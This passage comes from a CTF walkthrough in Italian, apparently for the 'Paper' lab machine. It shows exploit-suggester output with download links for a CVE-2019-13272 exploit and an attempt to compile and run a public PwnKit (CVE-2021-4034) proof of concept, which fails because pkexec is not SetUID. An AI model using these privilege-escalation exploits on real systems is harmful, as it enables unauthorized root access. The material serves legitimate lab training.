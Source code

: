 ```bash

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1903
   Exposure: less probable
   Tags: ubuntu=16.04{kernel:4.15.0-*},ubuntu=18.04{kernel:4.15.0-*},debian=9{kernel:4.9.0-*},debian=10{kernel:4.19.0-*},fedora=30{kernel:5.0.9-*}
   Download URL: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/47133.zip
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2019-13272/poc.c
   Comments: Requires an active PolKit agent.
```

### PwnKit - Fail

CVE-2021-4034 è un altro bug scoperto da Qualys, questa volta in pkexec, denominato PwnKit. [Questo post](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034) del blog entra in tutti i dettagli. L'exploit abusa della cattiva gestione di un argc vuoto (dove i parametri vengono passati a un programma Linux) per ottenere l'esecuzione tramite pkexec che viene eseguito come root (tramite SetUID) per impostazione predefinita.

La versione di pkexec su Paper è probabilmente vulnerabile a questo exploit, ma c'è un problema:

```bash
[dwight@paper ~]$ ls -l /usr/bin/pkexec
-rwxr-xr-x. 1 root root 29816 May 11  2019 /usr/bin/pkexec
```

pkexec non è impostato come SetUID e quindi sfruttarlo restituirà solo l'esecuzione come utente che lo esegue, il che non è utile.

Notando che pkexec non era SetUID, ho rinunciato a PwnKit e sono passato ad altre cose (che è una cosa ragionevole da fare). Volevo tornare e giocarci ora che ho accesso root.

Prenderò un POC praticamente a caso (scelgo [questo](https://github.com/luijait/PwnKit-Exploit/blob/main/exploit.c) di luijait). Salverò una copia di exploit.c su Paper e poi lo compilerò:

```bash
[dwight@paper dwight]# cc -Wall exploit.c -o exploit
[dwight@paper dwight]# ls -l
total 812
-rwxr-xr-x 1 dwight dwight   1174 Sep 16  2021 bot_restart.sh
-rwxr-xr-x 1 root   root    21992 Nov  2 09:20 exploit
-rw-r--r-- 1 root   root     1546 Nov  2 09:20 exploit.c
drwx------ 8 dwight dwight   4096 Sep 16  2021 hubot
-rwxrwxr-x 1 dwight dwight 776776 Oct 30 08:21 linpeas2022.sh
-rwxrwxr-x 1 dwight dwight   9627 Oct 27 11:14 poc.sh
drwxr-xr-x 4 dwight dwight     32 Jul  3  2021 sales
-r-------- 1 dwight dwight     33 Nov  2 08:51 user.txt
```

Lo eseguo e si lamenta che "pkexec deve essere setuid root":

```bash
[dwight@paper ~]$ ./exploit
Current User before execute exploit
hacker@victim$whoami: dwight
Exploit written by @luijait (0x6c75696a616974)mkdir: cannot create directory ‘GCONV_PATH=.’: File exists
mkdir: cannot create directory ‘tmp’: File exists
sh: tmp/b64load.c: Permission denied
/usr/bin/ld: cannot open output file tmp/pwnkit.so: Permission denied
collect2: error: ld returned 1 exit status
sh: tmp/gconv-modules: Permission denied

[+] Enjoy your root if exploit was completed succesfully
GLib: Cannot convert message: Could not open converter from “UTF-8” to “PWNKIT”
pkexec must be setuid root
```